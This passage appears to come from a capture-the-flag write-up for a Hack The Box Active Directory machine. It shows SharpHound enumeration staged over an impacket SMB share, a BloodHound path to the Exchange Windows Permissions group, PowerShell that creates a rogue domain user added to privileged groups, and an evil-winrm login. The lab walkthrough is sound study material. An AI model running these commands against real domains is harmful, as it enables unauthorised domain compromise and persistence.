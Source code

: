 I started and smb server using the tool from impacket in preperation to copy files to the target.

```
~/tools/impacket/examples/smbserver.py share `pwd`
```

I copied Sharphound to the target and ran it with the -c all parameter to collect all data. Sharphound collects data from the directory and saves it to a zip file which can be imported into bloodhound for analysis.

```
xcopy \\10.10.14.18\share\SharpHound.exe
sharphound.exe -c all 
```

I copied the resulting zip file back to my box and imported it into bloodhound. 

![image](https://user-images.githubusercontent.com/10210108/81176786-a9bd7c00-8f73-11ea-93f1-9e5ab73a92b1.png)

After running a few queries I noticed something interesting after running "shortest paths to unconstrained delegation systems". The svc-alfresco, is in the group "service accounts", which a member of "privileged it accounts", which is a member of "account operators", which is a member of "Exchange Windows Permissions" which has the "WriteDacl" permission on the htb.local domain.

![image](https://user-images.githubusercontent.com/10210108/81122698-76410a00-8eff-11ea-8c01-655d8480d3b7.png)

After researching exploits that involve the "Exchange Windows Permissions" group I came across this article: https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md which explains that "A privilege escalation is possible from the Exchange Windows permissions (EWP) security group to compromise the entire prepared Active Directory domain." 

In the win-rm session I used powershell to create a new account in Active Directory. I created a new service account and added the service account to the "Remote Management Users" group so I could log in via win-rm.

> In previous attempts I had tried to use the svc-alfresco account but the settings for this account were being reverted very frequently so I opted to create a new account which worked much better.

```Powershell
### Account info
$user_pass = ConvertTo-SecureString "password123!" -AsPlainText -Force
$user_name = "user1"

### Create new user
New-ADUser -Name $user_name -GivenName $user_name -Surname $user_name -SamAccountName $user_name -UserPrincipalName "$user_name @htb.local" -Path "CN=Users,DC=htb,DC=local" -AccountPassword $user_pass -Enabled $true

### Add user to Remote Management Users and Exchange Windows Permissions
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members (Get-ADUser -Identity $user_name)
Add-ADGroupMember -Identity "Remote Management Users" -Members (Get-ADUser -Identity $user_name)
```

I could then log on via evil-winrm with the new user

```
evil-winrm -i 10.10.10.161 -u user1 -p password123!
```
